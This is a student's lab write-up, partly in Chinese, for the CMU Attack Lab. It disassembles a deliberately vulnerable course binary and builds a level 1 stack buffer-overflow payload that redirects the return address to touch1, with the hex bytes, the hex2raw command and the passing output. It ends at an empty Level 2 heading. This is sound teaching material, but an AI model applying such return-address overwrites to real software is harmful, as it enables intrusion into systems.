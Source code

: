# Attack Lab實驗紀錄

## Intro

This file contains materials for one instance of the **attacklab**.

Files:

```bash
ctarget
```

Linux binary with code-injection vulnerability.  To be used for phases
1-3 of the assignment.

    rtarget

Linux binary with return-oriented programming vulnerability.  To be
used for phases 4-5 of the assignment.

```bash
 cookie.txt
```

Text file containing 4-byte signature required for this lab instance.

```bash
 farm.c
```

Source code for gadget farm present in this instance of `rtarget`.  You
can compile (use flag `-Og`) and disassemble it to look for gadgets.

```bash
 hex2raw
```

Utility program to generate byte sequences.  See documentation in lab
handout.

> 開始實驗前請先閱讀attacklab.pdf文檔

## Part I: Code Injection Attacks

### Level 1

先查看原先的程式碼:

```c
void test(){
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

然後我們看看`getbuf()`的實現，其實他的功能類似於`gets()`，直到遇上`\n`或`EOF`停止，這點適合我們進行攻擊

```c
unsigned getbuf(){
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

透過`./ctarget -q`執行`ctarget`後藉由輸入字串進行注入攻擊，目的是將原先`ret`返回地址的流程導向`touch1()`函式

```c
void touch1(){
    vlevel = 1;
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

使用`objdump -d ./ctarget > ctarget.s`反組譯`catarget`

`test()`的組合語言程式碼:

```asm
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	callq  400df0 <__printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
  401990:	c3                   	retq 
```

`getbuf()`的組合語言程式碼:

```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq 
```

`touch1()`的組合語言程式碼:

```asm
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

從上面的結果不難推測出，最終要將返回地址複寫成`0x 00 00 00 00 00 40 17 c0`，此處要特別注意機器是大端還是小端

所以調用`getbuf()`後棧的狀態類似:

```
---------------------------- 
|							|
|__________________________|
|______return address______| <-- stack + 40
|							|
|							|
|			buf				|
|							|
|							|
|__________________________| <--top of the stack
```

我們需要填充40個字元，然後再依序填入`c0 17 40 00 00 00 00 00`

官方文件有提到`HEX2TRAW`可以將文件中的hex值轉換成字元(用空白鍵區分)，然後將字串內容輸入給`ctarget`。因此只需要將

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

另存成`l1.txt`(名字自己取)，然後執行`./hex2raw < l1.txt | ./ctarget -q`語句就可以了

```
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

### Level 2





